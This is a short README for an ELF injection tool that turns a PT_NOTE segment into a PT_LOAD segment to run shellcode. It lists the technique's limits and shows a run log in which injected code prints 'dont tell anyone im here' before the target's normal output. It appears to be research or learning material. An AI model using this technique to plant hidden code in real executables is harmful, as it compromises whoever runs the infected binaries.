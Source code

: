 # `PT_NOTE` to `PT_LOAD` elf injection

More info: https://www.symbolcrash.com/2019/03/27/pt_note-to-pt_load-injection-in-elf/

This technique involves converting a `PT_NOTE` program section to a `PT_LOAD` section.
Since it relies on editing the ELF header's `e_entry` it is not stealthy and also doesn't work with PIE executatbles.
To use against Rust programs, one must pass `-C relocation-model=static` to the compiler.

The provided code also assumes you are targetting a little-endian 64-bit ELF.

```
$ ./run
rustc -C opt-level=z -C debuginfo=0 -C relocation-model=static target.rs
nasm -o shellcode.o shellcode.s
    Finished release [optimized] target(s) in 0.00s
     Running `target/release/pt_note-to-pt_load-injector files/target files/shellcode.o`
Found PT_NOTE; Changing to PT_LOAD
Done! Run target with: `./files/target`
$ 
$ ./files/target
dont tell anyone im here
hello world!
$
```
